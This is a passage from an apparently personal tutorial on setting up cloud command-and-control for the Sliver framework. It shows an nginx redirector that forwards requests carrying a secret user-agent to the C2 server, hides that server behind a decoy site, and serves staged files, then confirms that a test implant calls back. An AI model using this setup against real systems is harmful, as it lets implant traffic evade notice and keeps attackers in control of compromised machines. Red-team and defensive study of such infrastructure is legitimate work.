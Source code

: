 ```text
            autoindex on;
    }

    listen [::]:443 ssl ipv6only=on; # managed by Certbot
    listen 443 ssl; # managed by Certbot
    ssl_certificate /etc/letsencrypt/live/api.websitename.com/fullchain.pem; # managed by Certbot
    ssl_certificate_key /etc/letsencrypt/live/api.websitename.com/privkey.pem; # managed by Certbot
    include /etc/letsencrypt/options-ssl-nginx.conf; # managed by Certbot
    ssl_dhparam /etc/letsencrypt/ssl-dhparams.pem; # managed by Certbot

}

server {
    listen 80;
    listen [::]:80;
    server_name api.websitename.com;

    location / {
        return 301 https://websitename.com;
    }

    location ^~ /some/path {
            if ($http_user_agent != "Chrome/5.0 (erm; Windows 11; super legit user agent string)"){
                return 301 https://websitename.com;
            }

            proxy_pass http://[Sliver private IP];
            proxy_redirect off;
            proxy_set_header Host $host;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }

    location /another/path {
            alias /www/html/files;
            autoindex on;
    }
}
```

Replace `Sliver private IP, api.websitename.com, /some/path, /another/path, Chrome/5.0 (erm; Windows 11; super legit user agent string)` with appropriate values for your setup. This configuration does the following things:

1. If a request is to `/some/path`, from our custom user agent, *forward the request to the Sliver server*
2. If a request is to `another/path`, display a listing of the `/www/html/files` directory, (used to store things I might want to download)
3. Else; forward the request to `websitename.com`

Upon normal browsing, the API subdomain looks innocuous, but implant traffic will be redirected to the Sliver server. Start/enable Nginx with `systemctl enable nginx`, `systemctl start nginx`. Try browsing to `api.websitename.com/some/path`, it should redirect you to `websitename.com`.

### Testing! Yippee

Run the previously generated implant on a test machine; if everything worked, you should see a session pop from your sliver client!

![Session](security/cloud-c2/session.png)
